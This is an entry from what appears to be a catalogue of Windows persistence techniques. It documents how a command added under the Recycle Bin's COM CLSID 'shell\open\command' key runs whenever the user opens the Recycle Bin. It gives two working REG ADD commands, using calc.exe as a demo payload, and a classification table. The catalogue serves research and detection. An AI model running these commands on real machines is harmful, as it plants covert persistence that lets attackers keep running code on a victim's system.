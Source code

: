 ## Recycle Bin COM Extension Handler <!-- general "title" of the persistence. Good to be unique. -->
<!-- separate sections by two empty lines -->
<!-- do not remove empty sections  -->


### Location: <!-- where to find it -->
- `HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\`
- `HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\`


### Classification: <!-- see "how it works" document. Empty lime must go next. -->

|Criteria|Value|
|:---|:---|
|Permissions|Admin|
|Security context| User|
|Persistence type| Registry |
|Code type|EXE|
|Launch type| User initiated|
|Impact|Destructive|
|OS Version|All OS versions|
|Dependencies|OS only|
|Toolset|Scriptable|


### Description:<!-- add two EOLs or two spaces at the end of line to create a line break -->
Adding the "open\command" subkey to the Recycle Bin CLSID and adding a new verb for the "shell" key will execute the value stored in the "\command" entry.
> 1. REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command" /ve /t REG_SZ /d "calc.exe" /f
> 2. REG ADD "HKEY_CLASSES_ROOT\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command" /ve /t REG_SZ /d "calc.exe" /f

### References: <!-- use <...> or [abc](https://...) syntax. Prepend with "- " when more than one -->
- <https://www.hexacorn.com/blog/2018/05/28/beyond-good-ol-run-key-part-78-2/>
- <https://gitlab.com/ORCA000/recyclebinpersistence>


### Credits: <!-- use [abc](https://...) syntax. Prepend with "- " when more than one. -->
- [@Hexacorn](https://twitter.com/Hexacorn)  
- Entry added by [rootisareservedword](https://github.com/rootisareservedword)

### See also: <!-- if refering to the same repo, use [Name](file.md) syntax. -->
<!-- prepend with "- " if more than one -->


### Remarks: <!-- see the usage in the "classification" section. Use only 1:1 references i.e. not refering to the same footnote from two different places -->

